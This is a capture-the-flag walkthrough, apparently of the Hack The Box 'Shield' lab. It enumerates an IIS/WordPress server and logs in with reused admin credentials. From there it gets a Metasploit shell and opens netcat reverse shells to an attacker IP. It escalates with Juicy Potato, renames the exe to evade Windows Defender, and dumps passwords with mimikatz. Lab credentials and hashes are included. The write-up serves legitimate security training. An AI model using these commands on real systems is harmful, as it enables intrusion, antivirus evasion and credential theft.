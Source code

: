 # Starting Point - Shield

## Enumeration

```
PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   syn-ack MySQL (unauthorized)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Examining Port 80 - Windows Server Internet Information Service (IIS)

![](pics/webserver.png)

Navigating to Port 80, we can see the default IIS starting page (which is typical for Windows Server hosted websites). So we probably have to find the real application/directories by ourselves.

Therefore, we gonna use a tool like `gobuster`:
```
gobuster dir -u "http://10.10.10.29" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It relatively quickly finds a directory called `/wordpress`. Let's head over to this.

![](pics/wordpress.png)

The wordpress website is apparently a company's website that deals with electric trucks. It has two big buttons, which both have no functionality. Furthermore, it has an additional tab called `BLOG`, which leads us to their blod (also implemented with wordpress).

![](pics/blog.png)

On the blog-website, we also have the possibility to Login, which leads us to following website:

![](pics/wp_login.png)

I tried bruteforcing the login with username `admin`, as Wordpress has the bad behaviour of leaking usernames. It basically gives you a different error message, if you guessed the username right, but the password is still wrong.

![](pics/error1.png)

![](pics/error2.png)

Unfortunately, I had no success in doing so. After a few hours of research, I took a look at the official writeup of the room... In the writeup they state: `Since we have already acquired the password P@s5w0rd!, we can try to login to the WordPress site.`..Wait. Where and how did we acquire that exactly? That's what I asked in the official Discord server. Their answer was pretty much like "That's the password of the DB user in the previous machine! It's obvious that you should test that password for the Wordpress admin in this machine" .... riiiiiiight.

Anyway...

## Exploitation
Now that we are logged in with the obvious credentials `admin:P@s5w0rd!`, and have full access to the Wordpress admin dashboard, we can setup a reverse shell to the server. We gonna use `metasploit` for that, as windows systems are always a bit tricky.

So we open `msfconsole` and search for a suiteable module.

![](pics/metasploit_search.png)

We type `use 0` to select this module. Afterwards we type `show options` to see all the options we can and must set.

![](pics/metasploit_options.png)

After configuring it for your machine like that:

![](pics/metasploit_filled_options.png)

we can start the exploit.

![](pics/metasploit_run.png)

By typing `sysinfo` we get some information about the system:

```
meterpreter > sysinfo
Computer    : SHIELD
OS          : Windows NT SHIELD 10.0 build 14393 (Windows Server 2016) i586
Meterpreter : php/windows
```

We see that this is rather old Windows Server version. Let's see if it has any know vulnerabilities regarding privilege escalation.

And indeed! It's called `Rotten Potato` ([Github](https://github.com/foxglovesec/RottenPotato), [Youtube](https://www.youtube.com/watch?v=8Wjs__mWOKI)). For our case, we will use a slight modification of that exploit called `Juicy Potato` ([Github]( https://github.com/ohpe/juicy-potato/)).

### Upload Netcat

Download `nc.exe` from [here](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Afterwards, change the directory in your meterpreter session to 
```
C:/inetpub/wwwroot/wordpress/wp-content/uploads
```
Then upload the `nc.exe` file. To execute it use following command:

```
msf > execute -f nc.exe -a "-e cmd.exe 10.10.14.125 1234"
```

This only works ofc, if you have a nc listerner running.

### Prepare the Juicy Potato Exploit

We can create a batch file that will be executed by the exploit and return a SYSTEM shell. Let's add the following contents to `shell.bat` (run it from the nc reverse shell).

```
echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.125 1111 > shell.bat
```

Now start another nc listener on your local machine with the port specified in `shell.bat`.

Afterwards, we upload the Juicy Pototo exe with an uncommon name (I chose jp.exe), so that the windows defender won't detect it.

The final step is to execute the Juicy Potato exe with the previously generated `shell.bat` file like so:

```
jp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
```

![](pics/system_shell.png)

The root.txt is located in C:\Users\Administrator\Desktop: `6e9a9fdc6f64e410a68b847bb4b404fa`

## Post Exploitation

[Mimikatz](https://github.com/sebastiendamaye/hackthebox/raw/master/01-starting_point/04-Shield/files/mimikatz.exe) can be used to find additional cached passwords on the machine. This might be useful for the next challenge. 

So we upload the exe from the meterpreter session and execute it:

```
meterpreter > upload mimikatz.exe
```

Then do following in the System shell:

```
$ .\mimikatz.exe

$ mimikatz> sekurlsa::logonpasswords

...

Authentication Id : 0 ; 216075 (00000000:00034c0b)                                       
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 1/4/2021 11:12:16 AM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105                       
        msv :                               
         [00000003] Primary
         * Username : sandra
         * Domain   : MEGACORP
         * NTLM     : 29ab86c5c4d2aab957763e5c1720486d                                   
         * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38                           
         * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc                                   
        tspkg :                             
        wdigest :                           
         * Username : sandra
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :                          
         * Username : sandra                <-- USERNAME
         * Domain   : MEGACORP.LOCAL
         * Password : Password1234!         <-- PASSWORD
        ssp :                               
        credman : 
        
...
```

The found credentials are `sandra:Password1234!`.